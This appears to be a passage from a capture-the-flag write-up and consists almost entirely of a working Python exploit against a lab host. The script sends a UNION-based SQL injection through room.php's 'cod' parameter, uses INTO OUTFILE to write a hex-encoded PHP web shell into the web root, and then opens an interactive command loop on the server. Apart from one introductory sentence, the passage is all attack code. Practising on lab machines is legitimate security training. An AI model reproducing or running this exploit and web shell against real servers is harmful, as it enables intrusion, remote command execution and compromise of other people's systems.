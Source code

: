 Assuming the SQL process has valid permissions to write to the default web directory `/var/www/html/` the following Python script can be used:

```python
import re
import string
import random
import binascii
import requests

REGEX = r'BUBBA-START(.*)BUBBA-END'
URL = 'http://10.10.10.143/'
SQL = "0 UNION ALL SELECT 1,2,3,{0},5,6,7 INTO OUTFILE '/var/www/html/{1}'"
PHP = """
<?php if (isset($_REQUEST['cmd'])) {
  $cmd = $_REQUEST['cmd'];
  echo 'BUBBA-START';
  executeCommand($cmd);
  echo 'BUBBA-END';
  die();
}
function executeCommand(string $command) {
  if (class_exists('ReflectionFunction')) {
    $function = new ReflectionFunction('system');
    $function->invoke($command);
  } elseif (function_exists('call_user_func_array')) {
    call_user_func_array('system', array($command));
  } elseif (function_exists('call_user_func')) {
    call_user_func('system', $command);
  } else if(function_exists('passthru')) {
    ob_start();
    passthru($command, $return_var);
    $output = ob_get_contents();
    ob_end_clean();
  } else if(function_exists('system')){
    system($command);
  }
}?>"""

# make a random 20 character webshell name since OUTFILE cannot overwrite existing files
filename = ''.join(random.choice(string.ascii_lowercase) for i in range(20)) + '.php'
print(f'[*] webshell name: {filename}')
# convert webshell into hex
# NOTE: removing newlines since OUTFILE does not handle them well...
webshell_raw = '0x' + binascii.hexlify(PHP.replace('\n','').encode()).decode()
# upload webshell
print(f'[*] SQL query: {SQL.format(webshell_raw, filename)}')
requests.get(URL + 'room.php', params={'cod':SQL.format(webshell_raw, filename)})
# test shell
print(f'[*] testing shell...')
r = requests.get(URL + filename, params={'cmd':'whoami'})
val = re.findall(REGEX, r.text, re.S)
if not val:
  print('[-] failed!')
  exit()
print('[+] success!')
while True:
  c = input('> ')
  r = requests.get(URL + filename, params={'cmd':c})
  val = re.findall(REGEX, r.text, re.S)
  if not val:
    print('[!] no command output?')
  print(val[0])
```

